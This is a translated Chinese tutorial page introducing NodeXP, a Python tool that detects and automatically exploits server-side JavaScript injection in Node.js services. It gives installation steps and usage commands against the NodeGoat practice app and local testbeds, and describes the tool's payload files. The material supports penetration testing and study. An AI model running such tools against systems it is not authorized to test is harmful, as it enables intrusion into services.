 # node XP——一个服务器端 Javascript 注入工具，能够检测和利用 Node.js 漏洞

> 原文：<https://kalilinuxtutorials.com/nodexp/>

**NodeXP** 是一个集成的工具，用 Python 2.7 编写，能够**检测 **Node.js** 服务上可能的漏洞**以及**以自动化的方式利用**它们，基于**S**(erver)**S**(ide)**J**(avascript)**I**(njection)攻击！

## **Nodexp 入门——安装&使用**

通过克隆 Git 存储库下载 NodeXP:

```
**git clone https://github.com/esmog/nodexp** 
```

要获得所有选项的列表，请运行:

```
**python2.7 nodexp -h** 
```

相应的 POST 和 GET 案例示例:

```
`python2.7 nodexp.py --url="http://nodegoat.herokuapp.com/contributions" --pdata="preTax=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA"
python2.7 nodexp.py --url="http://nodegoat.herokuapp.com/contributions" --pdata="preTax=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA" --tech=blind

python2.7 nodexp.py --url="http://192.168.64.30/?name=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA"
python2.7 nodexp.py --url="http://192.168.64.30/?name=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA" --tech=blind` 
```

**也读[neo fetch——一个命令行系统信息工具](https://kalilinuxtutorials.com/neofetch/)**

## **设置和使用试验台**

为了熟悉 NodeXP，您可能需要设置所提供的 Node.js 测试服务(/testbeds)并开始使用该工具。需要一台运行 Node.js 服务器的本地计算机。

首先，你应该在 GET 和 POST 目录中安装“body-parser”和“express”包。

转到本地计算机上的“testbeds/GET”目录，将下面的命令粘贴到终端中:

```
**npm install express --save** 
```

转到“testbeds/POST”目录，将以下命令粘贴到终端中:

```
`npm install body-parser --save
nmp install express --save` 
```

在正确安装包之后，您可以通过运行命令“node”和所需的 js 文件(例如节点 eval.js)。

在您的服务器启动并运行之后，您就可以运行 NodeXP 并在这些服务上测试它了！

GET case 示例如下所示:

```
`python2.7 nodexp.py --url=http://localiprunningnodejsserver:3001/?name=[INJECT_HERE]` 
```

如下所示的 POST 案例示例:

```
**python2.7 nodexp.py --url=http://localiprunningnodejsserver:3001/post.js --pdata=username=[INJECT_HERE]** 
```

## **维护&更新有效载荷文件**

盲注和基于结果的注入技术所使用的有效载荷存储在“/files/blind_payloads.txt”和“/files/payloads.txt”中。

有效负载被写入文本文件的每一个奇数行，并且在基于结果的注入的情况下，它们的预期响应被写入“有效负载. txt”文件的每一个偶数行，作为用逗号分隔的列表。“blind_payloads.txt”文件的偶数行号为空。

为了停止注入过程，对于盲注入和基于结果的注入情况，“—end(nextline)—end”被用作能够停止解析和注入有效载荷的定界符。

每个用户都可以用自己的有效载荷来维护和更新有效载荷 txt 文件，只要她/他遵循上面的说明。

## **免责声明**

该工具的目的是严格的学术和开发，以进行我的硕士论文。在对 Node.js 服务进行渗透测试的过程中，这也很有帮助。强烈建议不要对该工具进行任何其他恶意或非法使用，这显然不是本次研究的目的。

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/esmog/nodexp)